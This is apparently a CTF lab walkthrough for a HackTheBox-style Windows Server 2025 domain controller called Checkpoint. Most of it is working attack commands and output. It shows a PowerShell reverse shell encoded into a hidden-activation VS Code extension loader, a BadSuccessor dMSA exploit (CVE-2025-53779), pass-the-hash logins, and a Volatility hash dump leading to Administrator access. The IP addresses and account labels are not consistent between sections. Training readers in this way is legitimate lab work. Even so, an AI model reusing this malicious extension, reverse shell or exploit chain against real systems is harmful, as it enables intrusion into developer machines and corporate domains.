






## Machine Summary

Checkpoint focuses on restoring tombstoned Active Directory objects, weaponizing malicious Visual Studio Code extensions, and exploiting Delegated Managed Service Accounts (dMSAs) via a BadSuccessor attack. Starting with assumed breach credentials for `alex.turner`, initial enumeration reveals that LDAP signing is enforced on Windows Server 2025. Enumerating deleted objects using the LDAP tombstone mechanism allows us to locate and restore the `mark.davies` account, which grants write access to the `DevDrop` share. We craft a malicious VSIX package containing a base64-encoded PowerShell reverse shell and upload it to the share, receiving a callback as `ryan.brooks`. Active Directory enumeration shows `ryan.brooks` possesses `GenericWrite` permissions over `svc_deploy`. Using the BadSuccessor vulnerability (CVE-2025-53779), we create a malicious dMSA (`evil-dmsa$`) linked as a successor to `svc_deploy`, allowing us to request a Kerberos service ticket that exposes `svc_deploy`'s RC4 hash. Authenticating as `svc_deploy`, we access the `VMBackups` share to retrieve a virtual memory dump (`.vmem`). Finally, analyzing the dump with Volatility 3 allows us to dump SAM hashes, recovering the Domain Administrator's NT hash and securing full system access.
## Recon
### Nmap Scan Results
```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-10-20 01:49:01Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49664/tcp open  msrpc             Microsoft Windows RPC
49670/tcp open  msrpc             Microsoft Windows RPC
49671/tcp open  msrpc             Microsoft Windows RPC
49677/tcp open  msrpc             Microsoft Windows RPC
49678/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc             Microsoft Windows RPC
49708/tcp open  msrpc             Microsoft Windows RPC
49717/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-10-20T01:49:51
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
```

Initial Nmap scan shows standard Domain Controller services, including DNS, Kerberos, LDAP/s, SMB, and WinRM.

The scan reveals a clock skew of roughly 7 hours. Because Kerberos authentication fails if the time drift exceeds 5 minutes, we sync our attack host's system time before proceeding:
```bash
sudo timedatectl set-ntp false
sudo ntpdate -u 10.129.173.65
```

We update `/etc/hosts` with the domain name and hostname:
```bash
echo "10.129.173.65 checkpoint.htb DC01 DC01.checkpoint.htb" | sudo tee -a /etc/hosts
```
## Initial Access & Active Directory Enum

We begin with assumed breach credentials: `alex.turner` / `Checkpoint2024!`.

Because Windows Server 2025 enforces LDAP signing by default, tools communicating over LDAP require updated binaries that handle secure binding (such as NetExec or bloodyAD).

Using NetExec, we enumerate SMB shares and discover a readable `DevDrop` share with a descriptive remark mentioning VS Code engine version `1.118.0`:
```bash
nxc smb 10.129.173.65 -u alex.turner -p 'Checkpoint2024!' --shares
```



Checking the `DevDrop` share shows as empty:
```bash
smbclient -U 'checkpoint.htb\alex.turner%Checkpoint2024!' \\\\10.129.173.65\\DevDrop
```
```bash
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 16:45:01 2026
  ..                                  D        0  Sat May  9 09:42:27 2026

		10459391 blocks of size 4096. 2460475 blocks available
smb: \>
```

We extract a clean user list via NetExec for auditing:
```bash
nxc smb 10.129.173.65 -u alex.turner -p 'Checkpoint2024!' --users | awk '{print $5}' > adusers.txt
```
```bash
Administrator
Guest
krbtgt
alex.turner
ryan.brooks
svc_deploy
james.harper
sarah.mitchell
emily.carter
david.reynolds
jessica.coleman
lauren.flores
michael.torres
kevin.patterson
brian.jenkins
megan.perry
max.palmer
```

### Tombstone Object Restoration
One machine in particular, "TombWatcher," highlighted this attack vector. This incident left several individuals, including myself, quite frustrated.

Although the `DevDrop` share is currently empty, LDAP enumeration using NetExec's `tombstone` module reveals a deleted object for `mark.davies`:
```bash
nxc ldap 10.129.173.65 -u alex.turner -p 'Checkpoint2024!' -M tombstone
```


We restore the deleted object using its Object GUID:
```bash
nxc ldap 10.129.173.65 -u alex.turner -p 'Checkpoint2024!' -M tombstone -o ACTION=restore ID=2217e877-e2a2-47d7-91d4-99ede36f367e
```


Testing the default password `Checkpoint2024!` against `mark.davies` confirms valid credentials and reveals write access to the `DevDrop` share:
```bash
nxc smb 10.129.173.65 -u mark.davies -p 'Checkpoint2024!' --shares
```

### Execution via Malicious VSIX Package

The `DevDrop` share description indicates that an internal developer or process periodically installs VSIX extension packages uploaded to the directory.

A VSIX extension is an Open Packaging Conventions (OPC) ZIP container. When installed, VS Code automatically executes JavaScript files defined in the extension's entry point (`extension.js`).

MDSec goes into high level detail on this blog post:
- https://www.mdsec.co.uk/2023/08/leveraging-vscode-extensions-for-initial-access/
#### Crafting the VSIX Payload
We want our end container structure to look as this:
```
legit-ext/
├── [Content_Types].xml
└── extension/
    ├── package.json
    └── extension.js
```
1. Create the directory structure:
```bash
$ mkdir -p legit-ext/extension
```
2. Create `[Content_Types].xml`:
```xml
<?xml version="1.0" encoding="utf-8"?>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types">
  <Default Extension="json" ContentType="application/json"/>
  <Default Extension="js" ContentType="application/javascript"/>
</Types>
```
3. Create `extension/package.json`:
```json
{
  "name": "devtools-helper",
  "displayName": "DevTools Helper",
  "version": "1.0.0",
  "engines": {"vscode": "^1.118.0"},
  "activationEvents": ["*"],
  "main": "./extension.js",
  "contributes": {}
}
```
4. Encode a base64 PowerShell reverse shell payload, replace `"LISTEN_IP","PORT"`:
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("LISTEN_IP","PORT");$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t UTF-16LE | base64 | tr -d '\n'; echo
```
5. Create `extension/extension.js` and paste our payload over `BASE64_ENCODED_PAYLOAD`:
```js
const cp = require('child_process');
const os = require('os');

exports.activate = function() {
    // PowerShell payload base64 encoded
    const payload = 'BASE64_ENCODED_PAYLOAD';
    
    cp.exec(`powershell -WindowStyle Hidden -NoProfile -e ${payload}`, 
            (error, stdout, stderr) => {
        if (error) console.error(error);
    });
};
exports.deactivate = function() {};
```
6. Package the directory into a `.vsix` archive:
```shell
cd legit-ext
zip -r devtools-helper.vsix '[Content_Types].xml' extension/
```
### Upload & Initial Shell
We start a local nc listener on port 4545 and upload `devtools-helper.vsix` to `DevDrop` via `smbclient`:
```shell
smbclient -U 'checkpoint.htb\mark.davies%Checkpoint2024!' \\\\10.129.173.65\\DevDrop
```
```bash
smb: \> put devtools-helper.vsix
putting file devtools-helper.vsix as \devtools-helper.vsix (12.1 kB/s) (average 12.1 kB/s)
smb: \>
```

Once installed by the system, our listener catches a reverse shell running as `ryan.brooks`.
```bash
$ rlwrap nc -lvnp 4545
Listening on 0.0.0.0 4545
Connection received on 10.129.173.65 59326

PS C:\Program Files\Microsoft VS Code> whoami
checkpoint\ryan.brooks
```
## Privilege Escalation - BadSuccessor Attack

### Active Directory Delegation Analysis

BloodHound analysis indicates that `ryan.brooks` has `GenericWrite` rights over the service account `svc_deploy`.


To perform administrative operations over Active Directory from our Linux host without knowing `ryan.brooks`' cleartext password, we extract a Kerberos TGT using Rubeus on our target session:
```bash
.\Rubeus.exe tgtdeleg /nowrap
```

We decode the base64 string, convert it to `ccache` format using Impacket, and export it to our environment:
```bash
# Decode
echo "<BASE64_TICKET>" | base64 -d > ticket.kirbi

# Convert with Impacket
ticketConverter.py --base64 ticket.kirbi ticket.ccache

# Export and check klist
export KRB5CCNAME=ticket.ccache
klist

Ticket cache: FILE:ticket.ccache
Default principal: ryan.brooks@CHECKPOINT.HTB

Valid starting       Expires              Service principal
10/20/2026 00:15:05  10/20/2026 10:15:05  krbtgt/CHECKPOINT.HTB@CHECKPOINT.HTB
	renew until 10/27/2026 00:15:05
```

### BadSuccessor Exploitation (CVE-2025-53779)

With write access over `svc_deploy`, we exploit the Server 2025 dMSA implementation using `bloodyAD`. We create a delegated MSA (`evil-dmsa$`) and assign it as the successor to `svc_deploy`:

```bash
bloodyAD --host dc01.checkpoint.htb -d checkpoint.htb -u ryan.brooks -k add badSuccessor 'evil-dmsa' -t 'CN=SVC_DEPLOY,OU=SERVICEACCOUNTS,DC=CHECKPOINT,DC=HTB' --ou 'OU=DMSAHolder,DC=checkpoint,DC=htb'
```

The KDC issues a Kerberos service ticket for `svc_deploy` containing its account secrets, revealing the RC4/NTLM keying material:
```bash
[+] dMSA TGT stored in ccache file evil-dmsa_zt.ccache

dMSA current keys found in TGS:
AES256: 1d088155691579a6717168e23b8e5183f05135aea79bbfb5b204542a4e80c33d
AES128: a74d2fb76a46a4dce3457aa08e92682b
RC4: baa9968e5d1da7470c652ada5b8b76fc

dMSA previous keys found in TGS (including keys of preceding managed accounts):
RC4: e16081eb077aca74bdbf8af12af43ac9
```

### Full System Access

Using the extracted RC4 hash for `svc_deploy`, we authenticate to SMB and observe read access to the `VMBackups` share:
```bash
$ nxc smb 10.129.180.42 -u svc_deploy -H e16081eb077aca74bdbf8af12af43ac9 --shares
```


We connect via `smbclient` using PTH and download the memory snapshot `Windows Server 2019-Snapshot1.vmem`:
```bash
$ $ smbclient //10.129.180.42/VMBackups -U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' --pw-nt-hash
```
```bash
smb: \NightlyBackup_2024-11-01\memory forensics\> ls
  .                                   D        0  Sat May  9 12:12:44 2026
  ..                                  D        0  Sat May  9 11:54:19 2026
  Windows Server 2019-000001.vmdk      A 106496000  Sat May  9 21:45:22 2026
  Windows Server 2019-Snapshot1.vmem      A 2147483648  Sat May  9 21:40:36 2026
  Windows Server 2019-Snapshot1.vmsn      A 138164859  Sat May  9 21:40:36 2026
  Windows Server 2019.nvram           A   270840  Sat May  9 21:39:00 2026
  Windows Server 2019.scoreboard      A     7642  Sat May  9 21:45:22 2026
  Windows Server 2019.vmdk            A 10199695360  Sat May  9 21:39:00 2026
  Windows Server 2019.vmsd            A      502  Sat May  9 21:39:00 2026
  Windows Server 2019.vmx             A     2749  Sat May  9 21:45:22 2026
  Windows Server 2019.vmxf            A      274  Sat May  9 21:22:44 2026

		10459391 blocks of size 4096. 2481601 blocks available
smb: \NightlyBackup_2024-11-01\memory forensics\> get "Windows Server 2019-Snapshot1.vmem"                    
getting file \NightlyBackup_2024-11-01\memory forensics\Windows Server 2019-Snapshot1.vmem of size 2147483648 as Windows Server 2019-Snapshot1.vmem (5086.2 KiloBytes/sec) (average 5086.2 KiloBytes/sec)
```

Using Volatility 3, we execute the `windows.hashdump` plugin against the memory image to extract local system hashes:
```bash
$ vol -f Windows\ Server\ 2019-Snapshot1.vmem windows.hashdump
```
```bash
User	rid	lmhash	nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	f29e9c014295b9b32139b09a2790be3b
Guest	501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount	504	aad3b435b51404eeaad3b435b51404ee	28f8d934dee90b2ec824351cb0844479
```

Using the recovered Domain Administrator hash, we authenticate via `evil-winrm` to obtain full administrative access:
```bash
$ evil-winrm-py -i 10.129.180.42 -u Administrator -H 'f29e9c014295b9b32139b09a2790be3b'
```
```powershel
evil-winrm-py PS C:\users\max.palmer\desktop> cat root.txt
5ed92760ba1f6e5295bd2eb4f1b177f2
```